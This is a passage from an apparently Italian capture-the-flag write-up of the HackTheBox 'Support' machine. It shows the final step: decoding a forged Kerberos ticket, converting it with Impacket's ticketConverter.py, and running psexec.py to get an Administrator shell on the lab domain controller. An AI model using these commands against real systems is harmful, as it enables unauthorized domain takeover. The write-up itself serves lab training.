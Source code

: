 La generazione è andata a buon fine. Quindi procedo prendendo l'ultimo ticket in base64 per ottenere una shell come Administrator.

Per fare questo, copio il contenuto del ticket all'interno del file "ADTGT_b64", rimuovendo prima gli spazi bianchi. Poi lo decodifico attraverso questo comando:

```bash
base64 -d ADTGT_b64 > ADTGT
```

Utilizzo lo script "TicketConverter.py" di _Impacket_:

```bash
ticketConverter.py ADTGT ADTGT_FINAL
```

Per ottenere la shell utilizzo lo script "psexec.py":

```bash
KRB5CCNAME=ADTGT_FINAL psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

<p align="center">
  <img src="/Immagini/Windows-Box/Support/support-24.png"/>
</p>

**Ottengo così il secondo flag!**
